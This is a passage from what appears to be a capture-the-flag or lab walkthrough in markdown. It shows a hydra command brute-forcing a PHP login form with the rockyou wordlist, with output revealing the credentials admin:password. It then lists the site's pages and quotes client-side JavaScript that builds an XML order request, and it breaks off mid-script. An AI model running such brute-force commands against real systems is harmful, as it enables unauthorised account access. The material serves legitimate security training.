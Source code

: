 - Now we know which fields are used during post request and which is the error page
- Let's bruteforce the login using hydra

```bash
$ hydra -l admin -P /usr/share/wordlists/rockyou.txt \
    http-post-form://{IP}:80/index.php:'username=^USER^&password=^PASS^' \
    :'H=Cookie\: PHPSESSID=647e1afpfuteemjqr5bh63ljve':'F=Wrong'

...
[80][http-post-form] host: 10.129.95.192   login: admin   password: password
...
```

- Correct credientials are: `admin:password`
- Once the login is successful we are redirected to the `home.php` page
- We have the same cookie and the source page does not show anyting important
- There are a number of pages here

1. `http://{IP}/home.php`
2. `http://{IP}/about.php`
3. `http://{IP}/products.php`
4. `http://{IP}/services.php`
5. `http://{IP}/contact.php`

- Attempting to make an order we see the following request being sent

![Order Request](./Images/order-request.png)

- The request is sent using XLF format `text/xml` with version 1.0
- There is another page named `process.php`
- When the request is sent (even if it is dropped) shows an alert with the content of the response
- Looking at the source page `services.php` there is the name `Daniel` and this script

```javascript
<script>
function getXml() {
    var elements = document.forms.myForm.elements;
    var xmlTemplate = '<?xml version = "1.0"?><order>';
    for (var i = 0; i < elements.length; i++) {
        var element = elements[i];
        if (element.tagName == "INPUT") {
            xmlTemplate = xmlTemplate + '<' + element.name + '>' + \
                element.value + '</' + element.name + '>';
        }


    }
    var e = document.getElementById("items");
    var item = e.options[e.selectedIndex].value;
```
